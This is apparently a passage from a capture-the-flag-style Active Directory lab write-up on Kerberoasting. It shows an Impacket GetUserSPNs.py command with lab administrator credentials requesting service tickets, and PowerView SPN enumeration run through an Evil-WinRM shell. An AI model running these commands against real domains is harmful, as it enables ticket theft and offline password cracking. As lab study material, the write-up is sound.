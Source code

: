 ![](attachment/eca79c5508b693f8da453e0d983d958b.png)

#### Using Impacket

It will only retrieve `SQLService` without using userlist

```bash
┌──(kali㉿kali)-[~/thm]
└─$ GetUserSPNs.py -dc-ip 10.10.104.42 -request CONTROLLER.local/Administrator:'P@$$W0rd' -outputfile tgs_hash.txt
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
```

#### Using PowerView

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainUser -SPN | select samaccountname

samaccountname
--------------
krbtgt
SQLService
```
